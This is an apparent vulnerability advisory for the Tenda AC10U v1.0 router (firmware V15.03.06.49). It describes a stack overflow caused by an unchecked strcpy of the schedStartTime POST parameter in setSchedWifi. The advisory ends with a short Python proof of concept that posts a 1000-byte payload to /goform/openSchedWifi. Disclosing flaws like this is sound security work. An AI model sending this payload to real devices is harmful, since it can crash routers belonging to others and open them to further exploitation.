 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3795.html

## Affected version

AC10U v1.0 Firmware V15.03.06.49

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.49 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `sched_start_time` variable receives the `schedStartTime` parameter from a POST request and is later assigned to the `wlan_switch` variable, which is fixed at 25 bytes. However, since the user can control the input of `schedStartTime`, the statement `strcpy(wlan_switch->begin_time, sched_start_time);` can cause a buffer overflow. The user-provided `schedStartTime` can exceed the capacity of the `wlan_switch` array, triggering this security vulnerability.

![image-20240313152429855](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313152429855.png)

![image-20240313152216580](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313152216580.png)

![image-20240313152307874](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313152307874.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/openSchedWifi"
payload = b"a"*1000

data = {"schedWifiEnable":0,"schedStartTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313152455310](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313152455310.png)
